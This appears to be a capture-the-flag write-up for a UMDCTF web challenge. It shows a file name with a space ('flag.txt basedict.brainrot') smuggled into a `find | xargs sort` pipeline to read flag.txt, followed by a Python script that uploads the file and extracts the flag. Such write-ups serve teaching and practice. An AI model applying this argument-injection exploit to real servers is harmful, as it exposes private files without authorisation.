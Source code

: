 ```yaml
---
ai_date: 2025-04-27 03:51:56
ai_summary: Payload filename with spaces bypassed sort and revealed flag in response
tags:
  - filename-bypass
  - xss
created: 2025-04-25T18:58
updated: 2025-07-14T09:46
---
```


The shell command looks suspicious:

```sh
find {session['upload_dir']} -name \*.brainrot | xargs sort | uniq
```

I can tell that this will be messed up by spaces in filename, so after a bit of playing around I found the payload filename.

`flag.txt basedict.brainrot`


```sh
$ ls upload_dir/
basedict.brainrot   flag.txt  'flag.txt basedict.brainrot'

$ find upload_dir -name \*.brainrot
upload_dir/basedict.brainrot
upload_dir/flag.txt basedict.brainrot

$ find upload_dir -name \*.brainrot | xargs sort
flag  # from flag.txt
hello # from basedict.brainrot
hello 
not_flag
not_flag
```

```python
import requests
import re

base_url = 'https://brainrot-dictionary.challs.umdctf.io'
upload_url = f"{base_url}/"
download_url = f"{base_url}/dict"

s = requests.Session()
files = {
    'user_file': (
        'flag.txt basedict.brainrot',
        b'chicken'
    )
}
r = s.post(upload_url, files=files, allow_redirects=False)
r = s.get(download_url)
print(re.search(r'[\w_]+{.*}', r.text).group(0))
```

```flag
UMDCTF{POSIX_no_longer_recommends_that_this_is_possible}
```
